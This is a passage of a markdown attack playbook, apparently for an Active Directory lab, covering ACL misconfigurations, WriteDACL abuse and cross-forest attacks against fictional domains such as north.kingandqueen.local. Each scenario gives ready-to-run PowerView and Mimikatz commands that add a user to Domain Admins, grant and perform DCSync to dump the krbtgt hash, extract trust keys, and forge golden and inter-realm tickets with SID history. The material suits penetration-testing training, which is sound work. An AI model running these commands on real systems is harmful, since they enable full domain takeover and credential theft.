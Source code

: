 #### ACL Misconfigurations
- **Target**: Domain Admins group in north.kingandqueen.local
- **Initial Access**: Compromise helpdesk_admin account
- **Attack Technique**: Exploit GenericAll permission to add accounts to Domain Admins
- **Commands**:
  ```powershell
  # Using PowerView
  Import-Module .\PowerView.ps1
  Add-DomainGroupMember -Identity 'Domain Admins' -Members 'helpdesk_admin'
  ```

#### WriteDACL Exploitation
- **Target**: north.kingandqueen.local domain
- **Initial Access**: Compromise WebAdmins group member
- **Attack Technique**: Exploit WriteDACL permission to grant DCSync rights
- **Commands**:
  ```powershell
  # Using PowerView
  Import-Module .\PowerView.ps1
  Add-DomainObjectAcl -TargetIdentity 'DC=north,DC=kingandqueen,DC=local' -PrincipalIdentity 'regular_user' -Rights DCSync
  
  # Using Mimikatz to perform DCSync
  Invoke-Mimikatz -Command '"lsadump::dcsync /domain:north.kingandqueen.local /user:krbtgt"'
  ```

### 5. Cross-Forest Attacks

#### Trust Ticket Attacks
- **Target**: bastion.local from kingandqueen.local
- **Initial Access**: Compromise kingandqueen.local domain
- **Attack Technique**: Forge inter-realm TGTs using the trust key
- **Commands**:
  ```powershell
  # Using Mimikatz to extract trust key
  Invoke-Mimikatz -Command '"lsadump::trust /patch"'
  
  # Using Mimikatz to forge trust ticket
  Invoke-Mimikatz -Command '"kerberos::golden /domain:kingandqueen.local /sid:S-1-5-21-... /rc4:<trust key> /user:Administrator /service:krbtgt /target:bastion.local /ticket:trust.kirbi"'
  ```

#### SID History Abuse
- **Target**: production.local from bastion.local
- **Initial Access**: Compromise bastion.local domain
- **Attack Technique**: Exploit SID history to gain privileged access in trusted domains
- **Commands**:
  ```powershell
  # Using Mimikatz to create golden ticket with SID history
  Invoke-Mimikatz -Command '"kerberos::golden /domain:bastion.local /sid:S-1-5-21-... /sids:S-1-5-21-...-519 /rc4:<krbtgt hash> /user:Administrator /ptt"'
  ```
